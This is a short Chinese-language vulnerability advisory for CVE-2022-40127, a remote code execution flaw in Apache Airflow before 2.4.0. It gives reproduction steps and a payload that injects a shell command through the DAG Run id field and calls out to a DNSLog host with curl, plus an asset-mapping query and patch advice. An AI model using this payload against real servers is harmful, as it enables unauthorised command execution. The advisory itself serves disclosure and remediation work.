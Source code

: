 # 

# Apache Airflow 远程代码执行漏洞 CVE-2022-40127

## 漏洞描述

Apache Airflow 是一个可编程，调度和监控的工作流平台，基于有向无环图（DAG），Airflow 可以定义一组有依赖的任务，按照依赖依次执行。

当攻击者可访问到 Apache Airflow 的后台，且环境中存在默认 Example Dags，则可构造恶意请求借助 run_id 执行任意命令。

## 漏洞影响

```
Airflow < 2.4.0
```

## 网络测绘

```
app="APACHE-Airflow"
```

## 漏洞复现

登录 Airflow，在任意 DAG 行，点击 Actions 列的三角符号，再点击“Trigger DAG w/ config”。

进入配置，在 Run id (Optional) 处输入 Payload：

```
{"lab":"\";curl `uname`.****.dnslog.pw;\""}
```

在 DNSLog 查看回显。

## 修复建议

官方已发布版本 2.4.3，可升级 Apache Airflow 版本到 2.4.0 或以上，或者停用默认 Dags。
